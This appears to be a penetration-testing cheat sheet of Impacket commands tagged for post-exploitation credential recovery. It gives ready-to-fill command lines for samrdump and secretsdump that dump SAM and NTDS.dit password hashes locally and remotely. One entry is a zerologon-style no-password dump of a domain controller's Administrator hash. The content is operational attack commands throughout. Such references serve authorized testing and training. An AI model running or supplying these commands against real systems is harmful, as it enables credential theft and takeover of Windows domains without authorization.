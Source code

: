 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<rhost>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<rhost>
```

## secretsdump local dump - extract hash from sam database
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<rhost> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<rhost>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<rhost>
```


